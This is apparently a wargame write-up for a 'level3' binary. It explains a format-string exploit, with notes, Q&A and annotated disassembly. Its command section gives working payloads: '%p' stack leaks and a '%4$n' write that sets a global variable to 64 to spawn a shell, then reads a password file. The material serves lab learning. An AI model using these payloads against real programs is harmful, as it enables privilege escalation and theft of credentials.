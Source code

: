 - attack: format string exploitation (address leaks)
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer (find repetition and compare with hex ASCII table)
- find the address global variable and its correct condition
- find the padding
- overwrite buffer and you will see 804988c on the 4th position
- overwrite buffer with padding and put address of global variable instead of return address
- and write 64 to the global variable
 
Info:
- positon of buffer in stack - 4

- 0804988c - address of global variable
- 8c980408 - same in little-endian
- same in hex - \x8c\x98\x04\x08
- the password - 0x40 or 64

- offset code structure: 64 = 4 (global variable address) + 60 (padding)


Code:
objdump -d ./level3
objdump -t level3
 ./level3
111111 %p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; echo "cat /home/user/level4/.pass") | ./level3

QA
- why the leakage of global varibale happens?
- Printf has no specificators. If we pass %smth in the stdin, prinf will consider it as specificator. Printf will try to print arguments, when they end - prinf will use global variables

- what is 0x200?

- how to find a global variable?
- objdump -t level3 -> 0804988c g     O .bss   00000004              m

- why padding is 64?

- why we cannot just pass "A" * 60?

- where exacly do we write the address of global variable

- how do we pass the global varibale?
- "A" * 60 + "%4$n - here %n will write the number of preceding bytes (64) and put it the pointed location: the position of 4th argument (buffer)

Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp) # 512
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax # buffer=520
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax # global variable
 80484df:       83 f8 40                cmp    $0x40,%eax # comparison of eax with 64
 80484e2:       75 34                   jne    8048518 <v+0x74> # if equals to 0 
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt> # Wait what?
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave # jump here if 0
 8048519:       c3                      ret

             